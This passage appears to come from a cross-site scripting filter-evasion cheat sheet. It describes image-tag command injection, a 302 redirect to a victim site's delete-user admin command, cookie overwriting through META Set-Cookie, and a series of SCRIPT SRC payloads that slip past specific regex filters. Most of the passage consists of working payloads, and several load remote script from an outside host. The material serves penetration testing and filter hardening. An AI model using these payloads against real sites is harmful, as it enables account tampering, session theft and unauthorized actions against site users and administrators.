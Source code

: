 #### IMG Embedded Commands¶
This attack only works when this is injected (like a web-board) in a web page behind password protection and that password protection works with other commands on the same domain. This can be used to delete users, add users (if the user who visits the page is an administrator), send credentials elsewhere, etc. This is one of the lesser used but more useful XSS vectors:
<IMG SRC="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">

##### IMG Embedded Commands part II¶
This is more scary because there are absolutely no identifiers that make it look suspicious other than it is not hosted on your own domain. The vector uses a 302 or 304 (others work too) to redirect the image back to a command. So a normal <IMG SRC="httx://badguy.com/a.jpg"> could actually be an attack vector to run commands as the user who views the image link. Here is the .htaccess (under Apache) line to accomplish the vector:
Redirect 302 /a.jpg http://victimsite.com/admin.asp&deleteuser

(Thanks to Timo for part of this)
#### Cookie Manipulation¶
This method is pretty obscure but there are a few examples where <META is allowed and it can be used to overwrite cookies. There are other examples of sites where instead of fetching the username from a database it is stored inside of a cookie to be displayed only to the user who visits the page. With these two scenarios combined you can modify the victim's cookie which will be displayed back to them as JavaScript (you can also use this to log people out or change their user states, get them to log in as you, etc):
<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">

#### XSS Using HTML Quote Encapsulation¶
This attack was originally tested in IE so your mileage may vary. For performing XSS on sites that allow <SCRIPT> but don't allow <SCRIPT SRC... by way of a regex filter /\<script\[^\>\]+src/i, do the following:
<SCRIPT a=">" SRC="httx://xss.rocks/xss.js"></SCRIPT>

If you are performing XSS on sites that allow <SCRIPT> but don't allow \<script src... due to a regex filter that does /\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i (This is an important one, because this regex has been seen in the wild):
<SCRIPT =">" SRC="httx://xss.rocks/xss.js"></SCRIPT>

Another XSS to evade the same filter: /\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i:
<SCRIPT a=">" '' SRC="httx://xss.rocks/xss.js"></SCRIPT>

Yet another XSS that evades the same filter: /\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i
Generally, we are not discussing mitigation techniques, but the only thing that stops this XSS example is, if you still want to allow <SCRIPT> tags but not remote script is a state machine (and of course there are other ways to get around this if they allow <SCRIPT> tags), use this:
<SCRIPT "a='>'" SRC="httx://xss.rocks/xss.js"></SCRIPT>

And one last XSS attack to evade, /\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i using grave accents (again, doesn't work in Firefox):

<SCRIPT a=`>` SRC="httx://xss.rocks/xss.js"></SCRIPT>

Here's an XSS example which works if the regex won't catch a matching pair of quotes but instead will find any quotes to terminate a parameter string improperly:
<SCRIPT a=">'>" SRC="httx://xss.rocks/xss.js"></SCRIPT>

This XSS still worries me, as it would be nearly impossible to stop this without blocking all active content:
<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="httx://xss.rocks/xss.js"></SCRIPT>
